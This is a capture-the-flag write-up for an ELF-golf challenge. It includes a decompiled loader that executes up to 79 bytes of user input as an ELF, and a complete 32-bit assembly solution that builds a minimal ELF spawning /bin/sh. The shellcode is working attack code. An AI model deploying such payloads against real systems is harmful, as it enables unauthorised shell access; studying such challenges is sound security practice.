 
## Provided Files
- chal
- Dockerfile

### chal decompilation
```c noheader
int32_t main(int32_t argc, char** argv, char** envp)
    int32_t var_7c = argc
    void* fsbase
    int64_t rax = *(fsbase + 0x28)
    setbuf(fp: stdout, buf: nullptr)
    setbuf(fp: stderr, buf: nullptr)
    puts(str: "I'm sure you all enjoy doing she…")
    puts(str: "But have you ever tried ELF golf…")
    puts(str: "Have fun!")
    int32_t var_6c
    __builtin_strncpy(dest: var_6c, src: "\x7fELF", n: 4)
    int32_t rax_1 = memfd_create("golf", 0)
    if (rax_1 s< 0) {
        perror(s: "failed to execute fd = memfd_cre…")
        exit(status: 1)
        noreturn
    }
    void var_68
    int32_t rax_2 = read(fd: 0, buf: &var_68, nbytes: 0x4f)
    if (rax_2 s< 0) {
        perror(s: "failed to execute ok = read(0, b…")
        exit(status: 1)
        noreturn
    }
    printf(format: "read %d bytes from stdin\n", zx.q(rax_2))
    if (memcmp(&var_6c, &var_68, 4) != 0) {
        puts(str: "not an ELF file :/")
        exit(status: 1)
        noreturn
    }
    int32_t rax_8 = write(fd: rax_1, buf: &var_68, nbytes: sx.q(rax_2))
    if (rax_8 s< 0) {
        perror(s: "failed to execute ok = write(fd,…")
        exit(status: 1)
        noreturn
    }
    printf(format: "wrote %d bytes to file\n", zx.q(rax_8))
    if (fexecve(fd: rax_1, argv, envp) s< 0) {
        perror(s: "failed to execute fexecve(fd, ar…")
        exit(status: 1)
        noreturn
    }
    *(fsbase + 0x28)
    if (rax == *(fsbase + 0x28)) {
        return 0
    }
    __stack_chk_fail()
    noreturn
```

## Intended
This challenge uses the same setup as ELFcrafting-v1, except it only allows a maximum of 79 bytes instead of 32. The smallest possible 64 bit binary is 80 bytes, and it should be impossible to go lower unless `binfmt.c` changes and becomes more permissive. This time the remote actually verifies the ELF signature, so no more shebangs. However the remote does not verify that the binary is actually a 64 bit binary. 32 bit binaries can be as small as 45 bytes, and gives up ample room for our own shellcode to pop a shell.

### Solution
**taken from [https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html](https://www.muppetlabs.com/~breadbox/software/tiny/teensy.html)**

```x86asm noheader
		BITS 32
  
		org	0x00010000
  
		db	0x7F, "ELF"
		dd	1
		dd	0
		dd	$$
		dw	2
		dw	3
		dd	_start
		dd	_start
		dd	4
_start:	mov	al,	11
        jmp	next
		nop
		nop
		nop
		db	0
		dw	0x34
		dw	0x20
		dd	1
next:	mov	ebx,	bin_sh
        int	0x80
bin_sh:	db	"/bin/sh", 0
  
filesize	equ	$ - $$
```

### sidenote:
You could golf this down further by replacing the `_start` code with `/bin/sh\x00` and relocating `_start`.

### sidenote:
Some people had problems with their solutions because they attempted to load their programs at an address lower than ubuntu's default vm.mmap_min_addr of `0x10000` which caused their programs to crash.

## Unintendeds
Zero unintendeds (-^-)
